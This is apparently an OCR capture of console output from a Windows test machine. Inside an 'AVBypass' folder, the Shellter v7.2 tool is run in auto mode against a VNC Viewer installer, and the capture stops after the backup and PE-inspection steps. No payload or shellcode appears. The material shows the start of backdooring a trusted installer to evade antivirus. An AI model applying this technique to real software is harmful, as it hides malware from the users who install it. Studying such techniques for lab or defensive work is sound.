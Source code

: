 ```
C:\Users\IEUser\Desktop\AVBypass>dir
 Volume in drive C is Windows 7
 Volume Serial Number is 5812-32B0

 Directory of C:\Users\IEUser\Desktop\AVBypass

05/22/2023  10:24 PM    <DIR>          .
05/22/2023  10:24 PM    <DIR>          ..
05/22/2023  06:22 AM        11,606,336 VNC-Viewer-7.1.0-Windows.exe
               1 File(s)     11,606,336 bytes
               2 Dir(s)  17,971,232,768 bytes free
```

```
C:\Users\IEUser\Downloads\shellter\shellter>shellter.exe



        1010101 01   10 0100110 10     01  11001001 0011101 001001
        11      10   01 00      01     01     01    10      11   10
        0010011 1110001 11011   11     10     00    10011   011001
             11 00   10 01      11     01     11    01      01   11
        0010010 11   00 0011010 100111 000111 00    1100011 01   10 v7.2
        www.ShellterProject.com



Choose Operation Mode - Auto/Manual (A/M/H): A

Perform Online Version Check? (Y/N/H): N

PE Target: C:\Users\IEUser\Desktop\AVBypass\VNC-Viewer-7.1.0-Windows.exe

**********
* Backup *
**********

Backup: Shellter_Backups\VNC-Viewer-7.1.0-Windows.exe




********************************
* PE Compatibility Information *
********************************

Minimum Supported Windows OS: 6.0

Note: It refers to the minimum required Windows version for the target
      application to run. This information is taken directly from the
      PE header and might be not always accurate.




******************
* Packed PE Info *
******************

Status: Possibly Not Packed - The EntryPoint is located in the first section!




```